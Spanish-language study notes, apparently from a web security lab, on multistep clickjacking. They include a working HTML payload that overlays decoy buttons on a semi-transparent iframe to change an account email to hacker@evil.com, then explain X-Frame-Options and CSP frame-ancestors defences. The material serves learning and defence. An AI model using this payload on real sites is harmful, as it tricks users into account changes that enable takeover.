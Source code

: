 
La manipulación de las entradas a un sitio web objetivo por parte de un atacante puede requerir múltiples acciones. Por ejemplo, un atacante podría querer engañar a un usuario para que compre algo en un sitio web minorista, por lo que es necesario añadir artículos a la cesta de la compra antes de realizar el pedido. El atacante puede llevar a cabo estas acciones utilizando múltiples divisiones o iframes. Para que estos ataques sean eficaces y sigilosos, requieren una precisión y un cuidado considerables por parte del atacante.

![20251005212202.png](20251005212202.png)

## Lab: Multistep clickjacking

![20251005215322.png](20251005215322.png)



```c
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height:600px;
            opacity: 30%;
            z-index: 2;
        }
		 .firstClick, .secondClick {
		position:absolute;
		top:545px;
		left:60px;
		z-index: 1;
	}
		.secondClick {
		top:315px;
		left:200px;
	}
    </style>
	<div class="firstClick">Click me first</div>
	<div class="secondClick">Click me next</div>
    <iframe src="https://0a75009c043d9309803ce02a003b00bd.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
</body>
</html>
```

![20251005222012.png](20251005222012.png)


![20251005222117.png](20251005222117.png)

## Cómo prevenir los ataques de clickjacking

El clickjacking es un comportamiento del navegador y su éxito o fracaso depende de la funcionalidad del navegador y de su conformidad con los estándares web vigentes y las mejores prácticas. La protección contra el clickjacking por parte del servidor se proporciona definiendo y comunicando restricciones sobre el uso de componentes como los iframes. Sin embargo, la implementación de la protección depende del cumplimiento por parte del navegador y de la aplicación de estas restricciones. Dos mecanismos para la protección contra el clickjacking por parte del servidor son X-Frame-Options y Content Security Policy.

### X-Frame-Options

X-Frame-Options se introdujo originalmente como un encabezado de respuesta no oficial en Internet Explorer 8 y fue rápidamente adoptado por otros navegadores. El encabezado proporciona al propietario del sitio web control sobre el uso de iframes u objetos, de modo que se puede prohibir la inclusión de una página web dentro de un marco con la directiva deny:

```c
X-Frame-Options: deny
```

Alternativamente, el framing puede restringirse al mismo origen que el sitio web utilizando la directiva sameorigin.

```c
X-Frame-Options: sameorigin
```

o a un sitio web específico utilizando la directiva allow-from:

```c
X-Frame-Options: allow-from https://normal-website.com
```

X-Frame-Options no se implementa de manera uniforme en todos los navegadores (la directiva allow-from no es compatible con Chrome versión 76 ni Safari 12, por ejemplo). Sin embargo, cuando se aplica correctamente junto con la política de seguridad de contenidos como parte de una estrategia de defensa multicapa, puede proporcionar una protección eficaz contra los ataques de clickjacking.

### Content Security Policy (CSP)

La Política de Seguridad de Contenido (CSP) es un mecanismo de detección y prevención que proporciona mitigación contra ataques como XSS y clickjacking. La CSP se implementa normalmente en el servidor web como un encabezado de retorno con el siguiente formato:

```c
Content-Security-Policy: policy
```

donde policy es una cadena de directivas de política separadas por punto y coma. El CSP proporciona al navegador del cliente información sobre las fuentes permitidas de recursos web que el navegador puede aplicar a la detección e interceptación de comportamientos maliciosos.

La protección recomendada contra el clickjacking es incorporar la directiva frame-ancestors en la política de seguridad de contenidos (CSP) de la aplicación. La directiva frame-ancestors «none» tiene un comportamiento similar a la directiva X-Frame-Options deny. La directiva frame-ancestors «self» es, en términos generales, equivalente a la directiva X-Frame-Options sameorigin. La siguiente CSP incluye en la lista blanca solo los marcos del mismo dominio:

```c
Content-Security-Policy: frame-ancestors 'self';
```

Alternativamente, el encuadre puede restringirse a sitios específicos:

```c
Content-Security-Policy: frame-ancestors normal-website.com;
```

Para ser eficaces contra el clickjacking y el XSS, las CSP deben desarrollarse, implementarse y probarse cuidadosamente, y deben utilizarse como parte de una estrategia de defensa multicapa.


